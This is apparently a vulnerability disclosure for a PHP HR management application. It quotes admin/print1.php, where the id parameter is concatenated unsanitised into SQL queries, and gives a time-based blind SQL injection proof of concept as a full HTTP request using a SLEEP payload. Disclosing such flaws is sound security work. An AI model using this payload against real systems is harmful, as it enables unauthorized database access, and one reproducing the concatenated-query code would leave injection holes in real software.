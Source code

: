 ### Vulnerability file address

`admin/print1.php` from line 19,The `$_GET['id']` parameter is controllable and the `$_GET['id']` is not protected from sql injection, line 22 `$statement = $conn->prepare($sql);` ,line 23 `$statement->execute();`,line 23 performs a SQL query, causing SQL injection

```php
 <?php
//error_reporting(0);
require_once('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');

?>

<?php 

    
$stmt = $conn->prepare("SELECT * FROM admin WHERE id='".$_SESSION['id']."'");
$stmt->execute();
$result = $stmt->fetch(PDO::FETCH_ASSOC);

?>
 
 <?php 
  $sql = "SELECT * FROM tbl_invoice where  id='".$_GET['id']."'";
 
                
 $statement = $conn->prepare($sql);
 $statement->execute();
$invoice = $statement->fetch(PDO::FETCH_ASSOC);?>
```

### POC

```http
GET /CMS/php/_hr_soft/admin/print1.php?id=1' AND (SELECT 1442 FROM (SELECT(SLEEP(5)))PxxA)-- syeM HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20250130162257987](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301622045.png)